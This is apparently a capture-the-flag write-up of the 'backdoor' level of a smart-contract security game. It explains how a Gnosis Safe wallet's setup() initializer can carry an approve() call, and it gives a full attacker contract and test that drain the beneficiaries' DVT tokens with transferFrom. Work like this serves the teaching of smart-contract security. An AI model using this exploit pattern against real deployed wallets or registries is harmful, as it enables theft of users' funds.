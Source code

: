 # backdoor

## analyse

### 1.overview

In this level, there is a walletRegistry. As long as someone registries a gnosis wallet, he can get 10 DVT. Up to now, 4 guys have registered, but they haven't called `proxyCreated()`. Our goal is to their DVTs in total 40.

There is only one contract providing us. In fact, it involves several other contracts, especially GnosisSafeProxyFactory and GnosisSafe.

### 2.theory of gnosis wallet

Creating a gnosis wallet is cheap because it uses clone pattern which doesn't need to deploy the entire logic contract. 

To solve this level, we must know how gnosis wallet works and is created.

The proxy contract is created in GnosisSafeProxyFactory contract. And we can create a gnosis wallet by `createProxyWithCallback()`. Attention, it contains a variable named initializer which we can exploit while it is used to initialized the wallet.

```solidity
    function createProxyWithCallback(
        address _singleton,
        bytes memory initializer,
        uint256 saltNonce,
        IProxyCreationCallback callback
    ) public returns (GnosisSafeProxy proxy) {
        uint256 saltNonceWithCallback = uint256(keccak256(abi.encodePacked(saltNonce, callback)));
        proxy = createProxyWithNonce(_singleton, initializer, saltNonceWithCallback);
        if (address(callback) != address(0)) callback.proxyCreated(proxy, _singleton, initializer, saltNonce);
    }
```

And then, `createProxyWithCallback()` will call `createProxyWithNonce()`. It will call the initializer to initialized as long as it doesn't wrong.

```solidity
    function createProxyWithNonce(
        address _singleton,
        bytes memory initializer,
        uint256 saltNonce
    ) public returns (GnosisSafeProxy proxy) {
        proxy = deployProxyWithNonce(_singleton, initializer, saltNonce);
        if (initializer.length > 0)
            // solhint-disable-next-line no-inline-assembly
            assembly {
                if eq(call(gas(), proxy, 0, add(initializer, 0x20), mload(initializer), 0, 0), 0) {
                    revert(0, 0)
                }
            }
        emit ProxyCreation(proxy, _singleton);
    }
```

After that, it will call `deployProxyWithNonce()` which uses `CREATE2` to create a wallet. By the way, the bytecode in `CREATE2` is constant because it uses clone pattern.

```solidity
    function deployProxyWithNonce(
        address _singleton,
        bytes memory initializer,
        uint256 saltNonce
    ) internal returns (GnosisSafeProxy proxy) {
        // If the initializer changes the proxy address should change too. Hashing the initializer data is cheaper than just concatinating it
        bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
        bytes memory deploymentData = abi.encodePacked(type(GnosisSafeProxy).creationCode, uint256(uint160(_singleton)));
        // solhint-disable-next-line no-inline-assembly
        assembly {
            proxy := create2(0x0, add(0x20, deploymentData), mload(deploymentData), salt)
        }
        require(address(proxy) != address(0), "Create2 call failed");
    }
```

### 3.attack logic

As we know, they four registered but don't call `proxyCreated()` to get 10 DET yet. We help them to call because there is no limit. So we can exploit during  help them :)

There are a lot of `require()` in it, let's analyses it:

- `require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");`: the level contract should hold enough DVT.
- `require(msg.sender == walletFactory, "Caller must be factory");`: Only GnosisSafeProxyFactory can call it.
- `require(singleton == masterCopy, "Fake mastercopy used");`: we can only create the same wallet which is masterCopy
- `require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");`: the wallet must initialized by `setup()`. We can exploit in it! Because we can pass any data in `setup()`
- `require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");`: Threshold must be 1.
- `require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");` : there must be only one owner.
- `require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");`: the owner must registry in this contract.

We know we can do something in `setup()`. the wallet someone creates will call `setup()`  and then it will do something with `to` and `data`. If the `data` contains `approve()`, `to` can use `transferFrom` to  transfer wallet's DVT!

```solidity
    function setup(
        address[] calldata _owners,
        uint256 _threshold,
        address to,
        bytes calldata data,
        address fallbackHandler,
        address paymentToken,
        uint256 payment,
        address payable paymentReceiver
    ) external {
        // setupOwners checks if the Threshold is already set, therefore preventing that this method is called twice
        setupOwners(_owners, _threshold);
        if (fallbackHandler != address(0)) internalSetFallbackHandler(fallbackHandler);
        // As setupOwners can only be called if the contract has not been initialized we don't need a check for setupModules
        setupModules(to, data);

        if (payment > 0) {
            // To avoid running into issues with EIP-170 we reuse the handlePayment function (to avoid adjusting code of that has been verified we do not adjust the method itself)
            // baseGas = 0, gasPrice = 1 and gas = payment => amount = (payment + 0) * 1 = payment
            handlePayment(payment, 0, 1, paymentToken, paymentReceiver);
        }
        emit SafeSetup(msg.sender, _owners, _threshold, to, fallbackHandler);
    }
```

So our attack is that: build a data with `approve()` as initializer to create the wallet. Then we can call `transferFrom()`  to steal DVT!

## solutions

contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import  "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";

contract GnosisWalletAttacker{
   GnosisSafeProxyFactory public factory;
   IProxyCreationCallback public callback;
   address[] public users;
   address public singleton;
   address token;

   constructor (address _factory,address _callback,address[] memory _users,address _singleton,address _token)public {
        factory=GnosisSafeProxyFactory(_factory);
        callback=IProxyCreationCallback(_callback);
        users=_users;
        singleton=_singleton;
        token=_token;
    }

    function approve(address _token,address spender)public{
        IERC20(_token).approve(spender,10 ether);
    }

    function attack()public {
        bytes memory data=abi.encodeWithSignature("approve(address,address)",token,address(this));

        for(uint256 i = 0; i < users.length; i++){
            address[] memory owners = new address[](1);
            owners[0] = users[i];
           bytes memory initializer = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)",
                owners,
                1,
                address(this),
                data,
                address(0),
                address(0),
                0,
                address(0)
           );
           GnosisSafeProxy proxy=factory.createProxyWithCallback(singleton,initializer,0,callback);

           IERC20(token).transferFrom(address(proxy),tx.origin,10 ether);
        }
       
    }

}
```

js

```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        this.attack = await (await ethers.getContractFactory("GnosisWalletAttacker",attacker)).deploy(
            this.walletFactory.address,
            this.walletRegistry.address,
            users,
            this.masterCopy.address,
            this.token.address
        )
        this.attack.connect(attacker).attack()
    });
```















